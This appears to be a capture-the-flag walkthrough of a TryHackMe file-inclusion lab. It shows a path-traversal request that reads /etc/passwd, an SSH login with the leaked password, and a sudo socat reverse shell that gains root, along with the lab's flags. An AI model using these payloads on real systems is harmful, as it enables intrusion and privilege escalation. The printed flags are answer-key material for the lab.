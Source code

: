 # Retro Walkthrough
### Link
- https://tryhackme.com/room/inclusion
---
### Recon
```
nmap -sC -sC -p- [IP]
```
**Namp scan result**
```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-23 06:53 EST
Nmap scan report for 10.10.79.52
Host is up (0.094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's check the link http://[IP]. We access to a blog. (looks like a standard blog, build recently with few contents). If we click on any link, we arrive to an article but the most interesting part is the URL
```
http://10.10.79.52/article?name=hacking
```
This URL gives us an interesting information. **name** is a parameter and every time we click on the link to access this page, a call is done on this paramter.That indicates us we can move forward with File Inclusion attack.

Let's try to check **/etc/passwd/**
```
http://[IP]/article?name=/etc/passwd/
```
We arrive to an error page. We need to navigate to the file
```
http://[IP]/article?name=../../../../../../etc/passwd
```
Result
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false 
```
We found the user **falconfeast** and it password **rootpassword**

---
### Exploitation

Let's SSH the server
```
falconfeast@10.10.79.52's password:
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Feb 23 17:35:52 IST 2022

  System load:  0.08              Processes:           86
  Usage of /:   34.8% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.79.52
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

3 packages can be updated.
3 updates are security updates.


Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
falconfeast@inclusion:~$ ls -l
total 8
drwxr-xr-x 2 root        root        4096 Jan 21  2020 articles
-rw-r--r-- 1 falconfeast falconfeast   21 Jan 22  2020 user.txt
falconfeast@inclusion:~$ cat user.txt
60989655118397345799
```
**Question**
#### user flag?
**Answer** 
#### 60989655118397345799
---
### Privilege Escalation

Let's check **sudo -l** with the current user
```
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
Check [gtfobins](https://gtfobins.github.io/gtfobins/socat/).

I tried the first pattern for [Shell](https://gtfobins.github.io/gtfobins/socat/#shell) but didn't work. 

- First: on the local machine, start the listener
```
socat file:`tty`,raw,echo=0 tcp-listen:4646
```
- Second: on the targeted machine, execute these command [ReverseShell](https://gtfobins.github.io/gtfobins/socat/#reverse-shell)
```
falconfeast@inclusion:~$ RHOST=[IP local machine]
falconfeast@inclusion:~$ RPORT=4646
falconfeast@inclusion:~$ sudo socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
```
- Third: Local machine listener
```
sudo socat file:`tty`,raw,echo=0 tcp-listen:4646
Password:
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls -l
total 4
-rw-r--r-- 1 root root 21 Jan 22  2020 root.txt
# cat root.txt
42964104845495153909
```
**Question**
#### root flag?
**Answer** 
#### 42964104845495153909